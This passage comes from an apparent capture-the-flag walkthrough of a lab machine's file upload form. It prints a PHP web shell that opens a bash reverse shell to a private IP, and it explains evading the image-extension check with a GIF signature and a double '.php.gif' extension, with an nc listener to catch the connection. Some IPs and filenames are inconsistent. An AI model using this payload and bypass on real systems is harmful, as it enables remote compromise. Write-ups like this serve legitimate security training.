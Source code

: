 ```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.80.129/1234'");?>
```

I didn't expect it to be that easy and it wasn't, we are greeted with an error page indicating that the only allowed file extensions are `png`, `jpg`, and `gif`.  This however is a very easy workaround, we can just prepend the GIF File Signature to the beginning of our shellcode, and then name it GIF and be on our way.

![](./doupload.png)

That was an easy bypass, now all that needs to be done is to include the file on the server, and spawn a reverse shell.  In order to receive the connection from the server we need to begin listening on the specified  IP and port that is in our shellcode. 

```bash
nc -lvnp 1234
l: listen
v: verbose
n: numeric-ip only
p: specified port
```

The service even makes it easier for us to invoke our shellcode, by telling us the directory where the uploaded image is stored `/uploads`.  Navigating to the specified 'image' to load it onto the webpage 

> 192.138.80.133/fristi/uploads/prevshell.gif

Just reveals an error displaying

> The image "url" cannot be displayed because it contains errors

Which means that the service is trying to include the file as a GIF file instead of what we want it to be included as (PHP).  The solution to this sounds like it could be hard, because we need the server to interpret the files as a PHP file, and we need to bypass the unknown image checks by having a GIF file.  In reality its quite an easy and stupid solution..

```bash
mv shell.gif shell.php.gif
```

The server will utilize the PHP file extension when including the file on the page, and the image checking will see the GIF in the extension and give us the ok.  After uploading our newly named file, while still listening for incoming connections on our machine we can navigate to the URL:

>192.138.80.133/fristi/uploads/prevshell.php.gif

![](./lowprivshell.png)
